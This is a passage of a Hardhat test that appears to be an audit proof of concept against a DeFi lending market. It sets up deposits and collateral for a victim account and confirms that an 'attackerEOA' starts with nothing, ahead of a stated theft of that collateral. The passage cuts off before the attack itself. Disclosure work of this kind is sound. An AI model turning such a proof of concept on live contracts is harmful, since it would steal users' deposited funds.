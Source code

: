 ```solidity
                usdoLendValue,
                false,
            );
            await yieldBox.depositAsset(
                usdoAssetId,
                deployer.address,
                deployer.address,
                0,
                _valShare,
            );
            await wethUsdoSingularity.addAsset(
                deployer.address,
                deployer.address,
                false,
                _valShare,
            );

            expect(
                await wethUsdoSingularity.balanceOf(deployer.address),
            ).to.be.equal(
                await yieldBox.toShare(usdoAssetId, usdoLendValue, false),
            );

            //@audit => eoa1 deposits wethDepositAmount in the YieldBox, which later will be add as collateral in the Singularity Market
            //we lend weth collateral
            const wethDepositAmount = ethers.BigNumber.from(
                (1e18).toString(),
            ).mul(1);
            await yieldBox
                .connect(eoa1)
                .depositAsset(
                    wethAssetId,
                    eoa1.address,
                    eoa1.address,
                    wethDepositAmount,
                    0,
                );
            
            //@audit => eoa1 valShares after depositing wethDepositAmount
            const _wethValShare = await yieldBox
                .connect(eoa1)
                .balanceOf(eoa1.address, wethAssetId);
            expect(_wethValShare).gt(0);
            

            // validate attacker has 0 valShares!
            const _attackerWethValShare = await yieldBox
                .connect(attackerEOA)
                .balanceOf(attackerEOA.address, wethAssetId);
            expect(_attackerWethValShare).equal(0);
                
            
            // Validate that attackerEOA has not collateral before stealing eoa1's collateral!
            expect(
                await wethUsdoSingularity.userCollateralShare(attackerEOA.address),
            ).equal(
                0,
            );
            
            // Validate that attackerEOA has 0 allowance in the allowanceBorrow mapping to spend on behalf of the eoa1
            expect(
```